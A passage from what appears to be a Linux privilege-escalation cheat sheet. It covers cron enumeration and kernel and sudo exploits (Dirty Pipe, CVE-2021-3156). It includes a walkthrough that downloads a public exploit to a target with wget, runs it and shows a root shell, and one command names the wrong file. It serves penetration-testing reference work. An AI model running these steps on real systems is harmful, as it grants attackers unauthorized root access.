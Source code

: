 ### Scheduled Jobs

```bash
# Print jobs
crontab -l
cat /etc/crontab
cat /var/log/syslog | grep "CRON"
```

## Kernel Exploits

### Dirty Pipe

> [CVE-2022-0847](https://nvd.nist.gov/vuln/detail/cve-2022-0847)

Affected versions:

```
  5.8 ≤ version < 5.16.11
  5.15 ≤ version < 5.15.25
  5.10 ≤ version < 5.10.102
```

Available [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits).

### Sudo heap-based buffer overflow (< 1.9.5p2)

> [CVE-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156)

Affected versions:

```
sudo versions < 1.9.5p2
```

Available [PoC](https://github.com/worawit/CVE-2021-3156/tree/main).

{% code overflow="wrap" %}
```bash
# Check the target's sudo version
$ sudo --version
Sudo version 1.8.31

# Download the PoC to the target
$ wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py

# Assign execute permissions
$ chmod +x exploit.py

# Run the exploit
$ ./exploit_nss.py
...
# id
uid=0(root) gid=0(root) groups=0(root),998(apache),1004(anita)
```
{% endcode %}

